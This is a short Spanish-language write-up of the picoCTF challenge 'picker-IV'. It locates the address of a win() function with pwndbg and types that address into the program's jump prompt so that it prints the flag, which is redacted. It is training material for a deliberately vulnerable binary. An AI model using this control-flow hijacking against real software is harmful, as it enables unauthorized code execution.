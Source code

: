 En este ejercicio nos dan un binario junto con su código en C.

Si ejecutamos el binario, podemos ver que nos pide una dirección en hexadecimal a la que saltar:

```c
./picker-IV         
Enter the address in hex to jump to, excluding '0x': 0x0000000000
You input 0x0
Segfault triggered! Exiting.
```

Vamos a asumir que ASLR está desactivado en la máquina víctima y también vamos a desactivarlo en nuestra máquina.

Como ahora las direcciones deberían ser las mismas todo el tiempo, y dado que PIE no está activado, podemos simplemente ver si hay alguna función interesante a la que podamos saltar.

Al revisar el código fuente, observamos la siguiente función:

```c
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}
```

Esta es la clásica función `win` que imprime la flag, así que vamos a intentar descubrir cuál es su dirección:

```c
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010e0  putchar@plt
0x00000000004010f0  puts@plt
0x0000000000401100  fclose@plt
0x0000000000401110  printf@plt
0x0000000000401120  fgetc@plt
0x0000000000401130  signal@plt
0x0000000000401140  setvbuf@plt
0x0000000000401150  fopen@plt
0x0000000000401160  __isoc99_scanf@plt
0x0000000000401170  exit@plt
0x0000000000401180  sleep@plt
0x0000000000401190  _start
0x00000000004011c0  _dl_relocate_static_pie
0x00000000004011d0  deregister_tm_clones
0x0000000000401200  register_tm_clones
0x0000000000401240  __do_global_dtors_aux
0x0000000000401270  frame_dummy
0x0000000000401276  print_segf_message
0x000000000040129e  win // Aquí
0x0000000000401334  main
0x00000000004013d0  __libc_csu_init
0x0000000000401440  __libc_csu_fini
0x0000000000401448  _fini
```

Ahora que sabemos la dirección, vamos a enviársela al programa para ver si salta correctamente a `win`:

```c
Enter the address in hex to jump to, excluding '0x': 0x000000000040129e
You input 0x40129e
You won!
picoCTF{SECRETO}
```

¡Listo!
